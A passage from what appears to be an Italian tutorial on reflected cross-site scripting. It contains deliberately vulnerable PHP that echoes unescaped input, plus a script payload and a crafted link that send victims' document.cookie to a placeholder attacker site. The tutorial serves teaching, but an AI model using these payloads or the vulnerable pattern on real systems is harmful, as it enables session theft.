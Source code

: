 L’esempio precendente fa semplicemente mostrare un popup nel sito web, ovviamente puo’ bastare per essere mostrato all’amministratore del sito in modo da invitarlo a correggere lo script, ma adesso andremo a mostrare il codice malevolo utilizzato per prelevare cookies di altri utenti del sito: \texttt{<script>document.location = “http://www.google.it”;</script>}. Con questo codice si puo’ letteralmente dirottare il sito affetto dalla vulnerabilità sul sito di Google. Ovviamente anche questo e’ inutile, ma pian piano ci stiamo avvicinando al risultato.

HTML non ha uno stato relativo alla sessione, ogni connessione non è correlata alla precedente. Per evitare di reinserire utente e password ad ogni azione, si utilizzano i \textit{cookies}. Un cookie è un'informazione che il server invia al browser dopo il primo login ed il browser automaticamente reinvia al server ad ogni azione. In questo modo il server riconosce il browser e gli permette di saltare le autenticazioni per il tempo di validità del cookie. Vediamo adesso un esempio più completo; nella prima pagina mettiamo un codice banale per effettuare un login:
\begin{lstlisting}[language=html]
<html>
	<h4> login </h4>
	<form action="check.php" method="get">
		User:
		<input type="text" name="user">
		<br>
		Password:
		<input type="text" name="pass">
		<input type="submit" value="entra">
	</form>
</html>
\end{lstlisting}
Lo script in PHP che controlla l'utente invia un cookie:
\begin{lstlisting}[language=php]
<?php
	if ($_get["user"] == "pippo"){
		setcookie("user", "authorized", time() + 3600);
		echo "Benvenuto ".$user;
		# crea un cookie con nome user, e dati relativi all'utente.
		echo <<<END
		<form action="retrieve.php" method="get">
			Input:
			<input type="text" name="content">
			<br>
			<input type="submit" value="Ok">
		</form>
		END;
	}
	else
		echo "L'utente non esiste\n";
?>
\end{lstlisting}
Il codice di echo è il seguente:
\begin{lstlisting}[language=php]
<?php
	if ($_COOKIE["user"] == "authorized"){
		$input = $_GET['content'];
		echo "Hai scritto: ".$input;
	}
	else
		echo "non hai diritto ad accedere a questa pagina\n"
?>
\end{lstlisting}
Se adesso provassimo ad inserire il codice Javascript di prima, troveremmo un cookie con un valore. Se inserissimo però:\\
 \texttt{<script>document.location = “http://www.tuosito.com/cookies.php?a=”+document.cookie;</script>} 
 succederebbe che il browser invierebbe al sito il contenuto del cookie. Con questo si dirotta il sito verso http://www.tuosito.com/cookies.php e si passano tramite la variabile \texttt{a} tutti i cookies che ha l’utente che e’ andato su quella pagina. In sostanza passando il link \texttt{search.php?query=<script>document.location = “http://www.tuosito.com/cookies.php?a=”+document.cookie;</script>} ad un qualsiasi utente di quel sito si mandano i suoi cookies su una nostra pagina, ma questi cookies che la nostra pagina riceve devono essere salvati da qualche parte per essere poi letti.\\

